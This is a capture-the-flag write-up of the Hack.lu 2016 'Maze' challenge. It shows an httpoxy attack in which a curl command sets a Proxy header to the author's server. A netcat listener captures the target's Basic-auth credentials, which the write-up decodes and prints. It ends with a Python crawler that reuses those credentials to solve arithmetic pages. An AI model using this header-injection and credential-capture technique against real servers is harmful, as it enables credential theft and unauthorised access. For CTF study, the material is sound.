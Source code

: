 Hack.lu 2016: Maze
==================

Description
----------

Maze was a programming task and worth 200 points. And the task was found at this url [https://cthulhu.fluxfingers.net:1507/](https://cthulhu.fluxfingers.net:1507/)

Step 1
------

From the website's task we found five links. The first four could we not visit since it required http authentication. But the fifth, [code.php](https://cthulhu.fluxfingers.net:1507/code.php), could we visit.  From here we could get a reference to 
```
# Ubuntu trusty
# Apache/2.4.7-1ubuntu4 
```
and this leaded us to a proxy request header vulnerability called [httpoxy](https://httpoxy.org/).  This vulnerability can be exploited with sending a http request with the proxy address with our server in the header field, and have that server listen with nc. Then their sever will visit my nc session with the http authentication credentials.  

```shell
 curl --header "Proxy: xxx.xx.xxx.xxx:13337" https://cthulhu.fluxfingers.net:1507/  
```

```shell
odinj@Ragnarok:/tmp/tmp$ nc -l -v -p 13337
listening on [any] 13337 ...
149.13.33.84: inverse host lookup failed: Unknown host
connect to [xxx.xx.xxx.xxx] from (UNKNOWN) [149.13.33.84] 49887
GET http://10.0.4.64/maze/ HTTP/1.1
Authorization: Basic c3VwM3JzM2NyM3R1czNyOm4wYjBkeWM0bmd1M3NteXA0c3N3MHJk
Host: 10.0.4.64
Accept: */*
Proxy-Connection: Keep-Alive
```

Then after decoding the base64 string I got the username and password for http authentication: **sup3rs3cr3tus3r:n0b0dyc4ngu3smyp4ssw0rd**

Step 2
------

Then after login in with http authentication, we got a math equation to solve. ![Step2](img/step2.png)
After solving the equation we got four new links. After a lot of failure and thinking I found out that this was graph traversing and created a python script for traversing all the URL and solve the math equations. Then after the python script did run about 30mins, the flag did appear.

```python

#! /usr/bin/python

#A hacked together script for solving Maze task at Hack.lu 2016

import requests
import re
from bs4 import BeautifulSoup
import time

username = 'sup3rs3cr3tus3r'
password = 'n0b0dyc4ngu3smyp4ssw0rd' 
url = 'https://cthulhu.fluxfingers.net:1507'

already_visited = []

def checkurl(link):
    global already_visited
    if link in already_visited:
        return False
    print(link)
    html_doc = requests.get(url+link, auth=(username, password)).content
    math = re.findall('(\d+)|([+*/-]+)', str(html_doc))
    print(html_doc)
    if not math:
        return
    already_visited.append(link)
    ##print(math)
    nr1 = int(math[0][0])
    nr2 = int(math[2][0])
    #print(math[1][1])
    if str(math[1][1]) == '+':
            tot = nr1 + nr2
    elif str(math[1][1]) == '-':
            tot = nr1 - nr2
    elif str(math[1][1]) == '/':
            tot = nr1 / nr2
    elif str(math[1][1]) == '*':
            tot = nr1 * nr2
    
    html_doc3 = requests.post(url+link, auth=(username, password), data = {'result':tot}).content
    #print(html_doc3)
    urllist2 = []	

    soup2 = BeautifulSoup(str(html_doc3), "html.parser")
    for link in soup2.find_all('a'):
        urllist2.append(link.get('href'))
    #print(urllist)
    #time.sleep(2)
    for urllink2 in urllist2:
        checkurl(urllink2)



	


urllist = []

html_doc = requests.get(url, auth=(username, password)).content

soup = BeautifulSoup(str(html_doc), "html.parser")
for link in soup.find_all('a'):
    urllist.append(link.get('href'))

urllist.remove("code.php")

for urllink in urllist:
	checkurl(urllink)
	



```
RUN:
```shell
./maze_solved.py
```

And thats is, and 200 point + bonus happier.
